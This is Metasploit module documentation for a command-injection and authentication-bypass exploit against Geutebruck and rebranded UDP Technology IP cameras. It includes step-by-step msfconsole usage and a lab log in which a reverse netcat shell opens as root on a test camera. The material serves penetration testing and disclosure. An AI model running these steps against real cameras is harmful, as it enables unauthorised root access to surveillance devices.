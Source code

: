 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27,
firmware version 1.12.13.2 or firmware version 1.12.14.5:

* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:

  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module bypasses authentication and exploits multiple authenticated arbitrary command execution
vulnerabilities within the parameters of various pages on Geutebruck G-Cam EEC-2xxx and G-Code EBC-21xx, EFD-22xx,
ETHC-22xx, and EWPC-22xx devices running firmware versions <= 1.12.0.27 as well as firmware
versions 1.12.13.2 and 1.12.14.5. Successful exploitation results in remote code execution as the `root` user.

Users can find additional details of this vulnerability on the blogpost page
at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch `msfconsole`
  3. Do: `use exploit/linux/http/geutebruck_cmdinject_cve_2021_335xx`
  4. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `check` to be sure the target is vulnerable
  7. Do: `exploit`
  8. You should get a shell as the `root` user.

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf > use exploit/linux/http/geutebruck_cmdinject_cve_2021_335xx
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > exploit
[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Setting up request...
[*] Sending CMD injection request to 192.168.14.58:80
[*] Exploit complete, you should get a shell as the root user!
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2021-02-23 13:37:28 +0200
pwd
/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-g3532e87a #1 PREEMPT Tue May 12 18:00:46 KST 2020 armv5tejl GNU/Linux
```
